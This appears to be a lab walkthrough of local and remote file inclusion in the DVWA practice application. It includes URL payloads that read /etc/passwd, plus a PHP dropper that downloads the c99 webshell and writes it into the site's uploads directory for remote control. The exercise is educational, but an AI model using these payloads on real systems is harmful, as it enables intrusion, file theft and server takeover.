


# File Inclusion

This vulnerability refers to the possibility of file inclusion within the execution of the Web application itself. At this point in the application it is possible to exploit the local inclusion of files (Local File Inclusion) or the remote inclusion of files (**Remote File Inclusion**).

To allow the inclusion of remote files in PHP there is a configuration directive in the `php.ini` file (to know the exact location of this file the simplest thing is to choose the option in the DVWA that indicates "**PHP Info**") that must contain the following value:

    allow_url_include = On

## Local File Include

To exploit this vulnerability, what an attacker will do is attempt to modify the URL of the page that appears in the web browser and attempt to include a file that may be locally hosted on the web server. 

The URL that appears would be:

    http://localhost/dvwa/vulnerabilities/fi/?page=file1.php

What the attacker may attempt to do is using the input parameter "page" to try to manipulate it in order to try to pass references to other local files that the application may not fully control. For example:

    http://localhost/dvwa/vulnerabilities/fi/?page=/etc/passwd

This way, the vulnerable application would try to include the local file (`/etc/passwd`) and show its contents in the web browser window, as can be seen in the following image.

 
As can be seen, the `/etc/passwd` file was dumped directly into the attacker's browser - depending on the file, it may contain confidential information.

## Remote File Include

In the case of remote file inclusion, the situation is more serious, as the inclusion can lead to other types of files (including files with PHP code) that will be executed on the server where the vulnerable web application is installed.

It is very easy to check if an application is vulnerable to this type of attacks. In the specific case of this DVWA, what is intended is once again to manipulate the URL in order to include remote content.

We can try to include a remote site:

    http://localhost/dvwa/vulnerabilities/fi/?page=http://www.google.com

And as we can see, the Google site is included inside the DVWA site. It's a good sign, at least for the attacker!!!

A more serious situation occurs when it is possible for an attacker to include a remote PHP file, which can be executed on the server where the vulnerable web application is running. Imagine for example the attacker being able to include a PHP WebShell - this would allow him to access the target system's filesystem (DVWA server) and control it remotely - this would be even more serious if the web server's apache process has privileged permissions.

To demonstrate this attack we will simulate the inclusion of "malicious" code on the site that then allows the installation of a web shell that allows remote administration of the site from an attacker's computer. Several steps in this process are listed below.

**First**, an attacker prepares a "malicious" PHP script, to manipulate the victim's web site (DVWA). This PHP script uses the uploads directory of the site (because it can be written by the apache process) and creates a directory and copies there a webshell (which can be found publicly on the Web). This script needs to be hosted on a web server. You can [do this directly in Kali Linux](https://techdhee.in/install-apache-on-kali-linux/).

    <?php
        $url = "http://localhost/payloads/c99.php";
        $dir = "/var/www/html/dvwa/hackable/uploads/webshell"; 
        mkdir($dir);
        $raw = file_get_contents($url);
        file_put_contents($dir."/c99.php", $raw);
        echo "You have been owned!!!";
    ?>

Second, the attacker, taking advantage of the file inclusion vulnerability, tries to inject his malicious code. To do so, it uses the following URL: 

    http://localhost/dvwa/vulnerabilities/fi/?page=http://localhost/payload/payload.php

Third, after the payload is executed, on the server of the vulnerable site in the directory "`/var/www/html/dvwa/hackable/uploads/`" a directory "`webshell`" is created where a file "`c99.php`" is downloaded - our webshell.

Finally, since the webshell is now resident on the server, it can be executed directly using the following URL: `http://localhost/dvwa/hackable/uploads/webshell/c99.php`.
 

